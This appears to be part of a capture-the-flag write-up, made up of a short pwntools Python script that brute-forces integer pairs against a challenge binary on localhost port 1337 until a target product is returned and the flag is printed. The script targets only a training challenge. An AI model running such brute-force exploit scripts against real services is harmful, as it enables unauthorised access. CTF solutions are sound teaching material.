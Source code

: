 ### Exploit 📜

```python
#!/usr/bin/python3.8
import warnings
from pwn import *
from termcolor import colored
warnings.filterwarnings("ignore")

fname = "./challenge4" 

LOCAL = False

prompt = ">"

def pwn():
  # Open a local process or a remote instance
  if LOCAL:
    r   = process(fname)
  else:
    r   = remote("0.0.0.0", 1337)

  with log.progress("Bruteforcing numbers") as p: 
    for i in range (0,70):                  # try positive numbers 
        for k in range (-1,-100,-1):        # try negative numbers
          payload = str(i) + " " + str(k)   # craft payload
          p.status(f"\nPair: {payload}")
          r.sendlineafter("Insert 2 numbers:", payload)   
          r.sendlineafter(">", "2")         # choose multiplication    
          ln = r.recvline()                 # if we found the correct result
          if b"64018" in ln:
            print(colored("\n[+] Pair of numbers: ({})*({})", "green").format(i,k))
            flag = r.recvline_contains("FLAG").decode()
            print(colored("\n[+] Flag: {}\n".format(flag), "green"))
            exit()

if __name__ == "__main__":
  pwn()
```

### PoC 🏁

![](assets/poc.png)